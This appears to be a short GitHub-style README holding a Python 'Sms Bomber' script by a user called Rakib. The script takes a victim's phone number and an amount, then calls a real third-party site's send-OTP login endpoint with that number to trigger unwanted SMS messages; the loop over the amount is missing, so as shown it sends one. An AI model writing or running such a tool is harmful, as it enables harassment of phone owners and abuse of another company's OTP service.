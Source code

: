 # Its-Rakib-
 Mr Rakib



import requests

#get

number=str(input(" Enter Your number: "))

amount=int(input(" Enter Your amount: "))



api="https://stage.bioscopelive.com/en/login/send-otp?phone=88"+number+"&operator=bd-otp"

type=("Hii, Welcome To My Sms Bomber Website ,To Continue My Tool & Enjoy This")

print(type)

requests.get(api)
